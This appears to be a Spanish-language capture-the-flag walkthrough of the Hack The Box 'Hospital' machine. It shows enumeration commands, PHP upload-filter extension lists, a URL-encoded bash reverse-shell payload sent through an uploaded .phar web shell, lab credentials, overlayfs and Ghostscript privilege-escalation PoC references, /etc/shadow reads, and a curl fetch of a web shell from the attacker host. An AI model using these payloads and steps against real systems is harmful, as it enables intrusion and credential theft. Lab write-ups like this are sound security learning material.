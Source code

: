 ```yaml
---
title: "Hack The Box - Hospital"
description: "Walkthrough: enumeración, explotación web (upload), credenciales expuestas y escalada a root."
pubDate: "2025-10-03"
tags: ["php", "Pentesting", "Web", "SMB", "PrivEsc"]
draft: false
---
```


**IP:** `10.10.11.241`  
**OS:** Linux (Apache / PHP / MariaDB)  
**Dificultad:** Hard

## Aclaración:
 por motivos de seguridad no se incluyen detalles explotables completos en este documento público. Si necesitás la información técnica completa, pedila por canal seguro.

---

### 🧭 Enumeración Inicial
```bash
nmap -sC -sV -p- 10.10.11.241

smbclient -L 10.10.11.241
rpcclient -U "" 10.10.11.241 -N
```

Observaciones: servicio web en puertos 80/8080 (Roundcube / web portal aparente), SMB/Windows services expuestos, MariaDB accesible desde la aplicación.

---

## 🧰 Herramientas principales
- nmap, gobuster, wfuzz
- smbclient, rpcclient, crackmapexec, impacket
- mysql / mariadb client
- hashcat / john (análisis de hashes)
- utilidades: curl, nc, certutil (Windows pruebas), rsync (si procede)

---

## 🔎 Fuzzing y discovery web
```bash
wfuzz -c --hc=404,403 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://hospital.htb/FUZZ

# gobuster ejemplo
gobuster dir -u http://hospital.htb:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15 -x php,html,txt -q
```

Se detectó `/uploads/` y comportamiento permisivo sobre extensiones. Lista de extensiones a tener en cuenta (case-insensitive en Windows):

```
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .pht, .phtml, .shtml, .htaccess, .phar, .inc
```


---

## ⚙️ Explotación web (upload → ejecución) — resumen seguro
1. Se subió un archivo con extensión aceptada y la aplicación lo procesó.  
2. Accediendo al archivo en `http://hospital.htb:8080/uploads/<archivo>` se observó la ejecución de comandos en contexto del servidor web (ej: `whoami` devolvió `www-data`).  
3. Confirmación de funciones PHP habilitadas y riesgo (`phpinfo()` mostró funciones como `popen`, `shell_exec`, `symlink`, `mail` activas).

```bash 
#ejemplo
http://hospital.htb:8080/uploads/not.a.shell.phar/?cmd=%20bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/IP/%200%3E%261%22
```

---

## 🗄️ Lectura de configuración y acceso a BD
Se encontró `config.php` accesible en `/var/www/html/...` con credenciales de la DB:

```bash
www-data@webserver://var/www/html$ cat config.php 
<?php
#/* Database credentials. Assuming you are running MySQL
#server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'root');
define('DB_PASSWORD', 'my$qls3rv1c3!');
define('DB_NAME', 'hospital');

```

Con las credenciales:
```bash
mysql -uroot -p
# introducir la contraseña encontrada
use hospital;
show tables;
select * from users;
```

Salida (extracto, hashes truncados):

| id | username | password (hash) | created_at |
|----|----------|-----------------|------------|
| 1  | admin    | $2y$10$...      | 2023-09-21 |
| 2  | patient  | $2y$10$...      | 2023-09-21 |
| 3  | emi123   | $2y$10$...      | 2025-04-14 |
| 4  | patron   | (empty)         | 2025-04-14 |


---

# ⬆️ Escalada local a root (overlayfs)

**Resumen:** Se identificó que el kernel era vulnerable a fallos de `overlayfs` (CVE-2023-2640 / CVE-2023-32629). Se validó el entorno y se ejecutó una PoC pública en el laboratorio, la cual permitió escalada local a `root`.

**Contexto operativo**
- Kernel inspeccionado (ejemplo): `uname -a` → `Linux webserver 5.x.y-...`
- Fecha/hora de la prueba: `2025-10-03T02:14:00Z`
- Usuario que ejecutó la PoC: `www-data` (shell obtenido vía upload).
- PoC usada (referencia): `https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh`

**Ejecución (resumen)**
- Se descargó la PoC al entorno de pruebas (archivo: `exploit.sh`)
  ```bash
  chmod +x exploit.sh
  ./exploit.sh  
  ```
- Resultado: escalada a `root` confirmada; se verificó acceso a `/root` y lectura de `/etc/shadow` para fines de evidencia.

**Evidencia**
- `/etc/shadow` (extracto redactado):
  ```
  root:$y$j9T$...:19612:0:99999:7:::
  drwilliams:$6$uWBSeT...:19612:0:99999:7:::
  ```

---

## 🖧 SMB / AD enumeración y pivoting

**Acciones realizadas**
- Uso de credenciales encontradas para autenticación SMB/RPC y enumeración de cuentas:
  ```bash
  rpcclient -U 'drwilliams%qwe123!@#' 10.10.11.241 -c 'enumdomusers'
  ```
- Resultado (resumen): cuentas detectadas — `Administrator`, `drbrown`, `drwilliams`, etc.
---

## Ataque a Windows (resumen de acciones)

**Vector**: Ghostscript / EPS (CVE-2023-36664) y posterior entrega de payload (redacted).

- PoC usada (referencia): `https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection/blob/main/CVE_2023_36664_exploit.py`
- Se descargó la PoC al entorno de pruebas (archivo: `CVE_2023_36664_exploit.py`)


- Listener atacante:
  ```bash
  rlwrap -cAr nc -nlvp 1234
  ```
- Comandos de prueba:
  - Upload y ejecución remediada: `curl http://10.10.15.53/cmd.php -o cmd.php` 
  - Comando remoto ejecutado (ejemplo): `https://hospital.htb/cmd.php?cmd=tasklist` 


